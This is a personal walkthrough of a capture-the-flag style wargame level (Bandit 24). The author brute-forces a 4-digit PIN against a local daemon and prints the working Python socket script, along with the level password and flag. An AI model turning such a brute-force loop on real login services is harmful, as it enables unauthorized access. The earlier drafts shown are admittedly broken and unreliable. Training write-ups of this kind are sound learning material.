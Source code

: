 # Level: BanditTwentyFour
## Level Credentials: bandit24:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
## Level Description: *A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.*

### Steps:
Obviously going to have to use netcat. The basic command is `nc localhost 30002`.  
I just need to find out how to pass the password and pin into netcat using a bash script. 
**Brute.sh:**
`
#!/bin/bash

for i in {1..10000};
do
        nc localhost 30002 $i
done
`

OR, I could use the language I specialize in ~~and that I briefly forgot shipped with almost every linux distro known to man~~:
**brutie.py:**
>import socket  
>pass = UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ  
>s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
>s.connect('localhost', 30002)  
>s.recv(1024)  
>def brute(s):  
>....for i in range(10001):  
>........print(f"Trying with {pass}:{i}")  
>........s.sendall(password + str(i) + '\n')  
>........bytesrec = s.recv(1024)  
>........print(f"Message returned: {bytesrec}")  
>if __name__ == '__main__':  
>....brute(sock)  

I've spent a few days struggling with getting this script working. It says it needs the socket data in bytes, not a string, but also says the commands are bytes. Another issue is that the python on the vm is 3.5.3, which doesnt have fstrings. 
### Solution:
**brutie.py:**
>import socket  
>import traceback  
>  
>  
>b24 =  'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'  
>  
>  
>sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
>sock.connect(('localhost', 30002))  
>sock.recv(1024)  
>  
>  
>def brute():  
>....print("Brute forcing...")  
>....while True:  
>........for i in range(0, 10000):  
>............try:  
>...............sockdata = '{} {}\n'.format(b24, i)  
>...............sock.sendall(sockdata.encode("utf-8"))  
>...............bytesrec = sock.recv(1024)  
>...............if 'wrong' in str(bytesrec).lower():  
>...................continue  
>...............else:  
>...................sm = str(b24) + ":" + str(i)  
>...................print(str(sm))  
>............except Exception as e:  
>................trace = traceback.format_exc()  
>................print(trace)  
>  
>  
>brute()  

The issue was actually not in the line with the .sendall() method, but the line with the bytesrec comparison.  


**Flag: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG**
